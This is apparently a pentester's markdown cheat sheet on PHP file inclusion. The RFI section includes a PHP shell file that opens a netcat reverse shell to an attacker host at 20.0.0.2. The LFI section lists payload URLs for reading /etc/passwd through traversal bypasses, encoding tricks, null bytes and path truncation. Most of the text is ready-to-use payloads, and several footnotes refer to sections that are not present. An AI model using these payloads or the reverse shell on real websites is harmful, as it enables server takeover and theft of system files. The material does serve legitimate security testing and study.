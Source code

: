 Unlike [Path Traversal](Path%20Traversal.md) that simply display the contents of a file, file inclusion vulnerabilities allow an attacker to include a file into the application’s running code. In order to actually exploit a file inclusion vulnerability, we must be able to not only execute code, but also to write our shell payload somewhere.

## RFI (Remote File Inclusion)

>[!info]
>Remote file inclusions (RFI) occur when a file is loaded from an external source.

RFI example:

```
http://victim/vuln/vulnerabilities/fi/?page=http://20.0.0.2/shell.txt
```

shell.txt:

```php
<?php
shell_exec('nc 20.0.0.2 8888 -e /bin/sh');
?>
```

---

## LFI (Local File Inclusion)

>[!info]
>Local file inclusions (LFI) occur when the included file is loaded from the same web server.

### Basic LFI and bypasses

```bash
# Basic LFI
http://example.com/index.php?page=../../../etc/passwd

# Bypasses
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

# Null byte 
http://example.com/index.php?page=../../../etc/passwd%00	# Solved since PHP 5.4

## Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# From existing folders
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd

# Path truncation
## Bypass the append of more chars at the end of the provided string (bypass of: $_GET['param']."php")
## In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
## Check if last 6 chars are passwd --> passwd/
## Check if last 4 chars are ".php" --> shellcode.php/.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
```

[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com